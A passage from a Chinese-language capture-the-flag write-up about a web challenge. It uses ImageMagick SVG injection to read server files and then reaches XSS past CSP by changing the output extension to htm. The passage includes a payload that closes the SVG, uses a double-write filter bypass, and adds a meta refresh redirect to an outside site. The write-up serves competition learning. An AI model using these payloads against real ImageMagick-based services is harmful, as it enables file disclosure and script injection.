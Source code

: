 ```python
```

这里注意, 注入的内容前面一定要跟点东西, 不能直接这样 `["><a></a><a href="]`, 因为 `http://pwnable.org:5000/static/emoji/`, 返回的是 404, 而 `http://pwnable.org:5000/static/emoji/随意的内容` 返回的是微笑. 如果什么都没有, imagemagick 得到 404 的话, 解析会直接中止.  

现在就能读取文件了, 结合后端是 python, 然后一顿测试, 得到应用在 `/app/app.py`, 可惜这里因为 imagemagick 的问题, 能读的源码有限, 调大图片尺寸也只能得到放大的文字, 不能显示更多的文字.  

部分源码:  

![](https://i.loli.net/2020/06/29/Gde8ry9uX3TKjR7.png#center)  

访问 `http://pwnable.org:5000/SUp3r_S3cret_URL/0Nly_4dM1n_Kn0ws`, 然后题目一转 xss... 要求 alert(1).  
因为这里有 csp 限制, 没法直接在 svg 里面用 script alert, 导致这里卡了挺久, 然后发现 imagemagick 生成的文件拓展名是可控的, 也就是第二步, 得到图片的路径是 `http://pwnable.org:5000/image/gzVIsH/png`, 修改最后的 png 到 svg, 就会如蜜传如蜜, 直接输出一张的 svg, 而且 content-type 也会改变. 不过这里后端限制了扩展名长度只能为 3, 否则会直接报错.  
这里查看文档, 发现 imagemagick 是支持输出 htm 的, `http://pwnable.org:5000/image/gzVIsH/htm` 得到的就是 htm, content-type 也变成了 `text/html`. 于是 xss 思路就来了, 看到源码的过滤是直接替换为空, 可以用喜闻乐见的双写绕过.  
然后在 svg 里面把最外面的 svg tag 给闭合了, 插入一个 html tag, 再用 meta 标签跳到我们的站上 alert(1) 即可, 这样就绕过了 csp.  

```python
d = '''
[{"type":0,"message":"Love you!<a>asd</a>[cool\\"/></g></svg><html><metmetaa http-equiv='refresh' content=\\"0;URL='http://site.com/'\\" /></html><a href=\\"]"},{"type":1,"message":"Me too!!!"}]
'''
```

不过感觉可能也是非预期? 因为看源码还有个可控 callback name 的 jsonp 没用上.  

PS. 这里其实可以直接读 /proc/self/environ 来读环境变量, 可惜 imagemagick 碰到 \x00 就停止读取了, 导致只能读取第一个环境变量 PATH, 都不到后面的 flag
